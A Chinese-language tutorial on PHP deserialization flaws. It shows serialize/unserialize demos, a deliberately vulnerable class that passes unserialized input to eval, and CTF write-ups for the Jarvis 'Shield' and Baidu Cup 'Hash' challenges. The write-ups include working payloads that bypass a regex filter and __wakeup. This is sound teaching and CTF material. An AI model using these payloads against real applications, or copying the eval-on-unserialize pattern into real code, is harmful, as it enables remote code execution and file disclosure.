

反序列化漏洞
serialize()，unserialize()这两个函数
说一说序列化和反序列化的，序列化说通俗点就是把一个对象变成可以传输的字符串。比如一个类class,在内存中是一个类，但是要持久化或者进行传输，就需要序列化，意思其实就是把类存储起来而已。
demo1:类的序列化
<?php
class Car{
var $size;
var $color;
function Car($size="big"){
$this->size=$size;
}
function what_size(){
return $this->size;
}
}
$mycar=new Car();
$mycar->color="green";
echo var_dump($mycar);
echo "<br>";
echo serialize($mycar);
?>输出
object(Car)#1 (2) { ["size"]=> string(3) "big" ["color"]=> string(5) "green" }
O:3:"Car":2:{s:4:"size";s:3:"big";s:5:"color";s:5:"green";}其实我觉得序列化和var_dump功能类似吧，反正就是不能有
，反序列化即把字符串O:3:"Car":2:{s:4:"size";s:3:"big";s:5:"color";s:5:"green";}转为类，但是如果是类，需要先定义类
demo2:类的反序列化
<?php
#类反序列化
class kitty{
var $age;
function Car($age="18"){
$this->size=$size;
}
}
$seriStr='O:5:"kitty":1:{s:3:"age";s:2:"18";}';
$new_me=unserialize($seriStr);
echo "<br>";
echo var_dump($new_me);
echo "<br>";
echo $new_me->age;
echo "<br>";
?>输出
object(kitty)#2 (1) { ["age"]=> string(2) "18" }
18demo3:数组的序列化和反序列化
<?php
#数组序列化
$data=['php','java',123];
echo "<br>";
echo serialize($data);
#数组反序列化
$new_ar='a:3:{i:0;s:5:"kitty";i:1;s:4:"java";i:2;s:6:"python";}';
echo "<br>";
echo var_dump(unserialize($new_ar));
echo "<br>";
echo unserialize($new_ar)[0];
?>输出
a:3:{i:0;s:3:"php";i:1;s:4:"java";i:2;i:123;}
array(3) { [0]=> string(5) "kitty" [1]=> string(4) "java" [2]=> string(6) "python" }
kitty语法规则
反序列化漏洞参生
其实还是一个变量覆盖的问题吧，我们传入的字符串反序列化，导致控制参数或者任意代码执行

代码执行
<?php
class Example {
var $var = "";
function __destruct() {
eval($this->var);
}
}
unserialize($_GET["saved_code"]);
?>payloadhttp://localhost/ser.php?saved_code=O:7:%22Example%22:1:{s:3:%22var%22;s:10:%22phpinfo();%22;}
jarvios例题：
源码泄露给了两个文件
index.php
<?php
require_once('shield.php');
$x = new Shield();
isset($_GET['class']) && $g = $_GET['class'];
if (!empty($g)) {
$x = unserialize($g);
}
echo $x->readfile();
?>shield.php
<?php
//flag is in pctf.php
class Shield {
public $file;
function __construct($filename = '') {
$this -> file = $filename;
}
function readfile() {
if (!empty($this->file) && stripos($this->file,'..')===FALSE
&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
return @file_get_contents($this->file);
}
}
}
?>这里我们可以看见只要操控$file这个参数为pctf.php就可以了，这里construct函数在实例被创建的时候(也就是new Shield()的时候)执行，所以不会影响我们对$file的操作
payloadO:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}
“百度杯”CTF比赛 十月场 Hash
<?php
class Demo {
private $file = 'Gu3ss_m3_h2h2.php';
public function __construct($file) {
$this->file = $file;
}
function __destruct() {
echo @highlight_file($this->file, true);
}
function __wakeup() {
if ($this->file != 'Gu3ss_m3_h2h2.php') {
//the secret is in the f15g_1s_here.php
$this->file = 'Gu3ss_m3_h2h2.php';
}
}
}
if (isset($_GET['var'])) {
$var = base64_decode($_GET['var']);
if (preg_match('/[oc]:\d+:/i', $var)) {
die('stop hacking!');
} else {
@unserialize($var);
}
} else {
highlight_file("Gu3ss_m3_h2h2.php");
}
?>payload
<?php
<?php
class Demo {
private $file = 'Gu3ss_m3_h2h2.php';
public function __construct($file) {
$this->file = $file;
}
}
$a = new Demo('f15g_1s_here.php');
$s = serialize($a);
echo $s;
echo "\n";
$s = str_replace('O:4', 'O:+4',$s);//绕过正则
$s = str_replace(':1:', ':2:' ,$s);//绕过wakeup函数
echo $s;
echo "\n";
echo base64_encode($s);
//TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czoxNjoiZjE1Z18xc19oZXJlLnBocCI7fQ==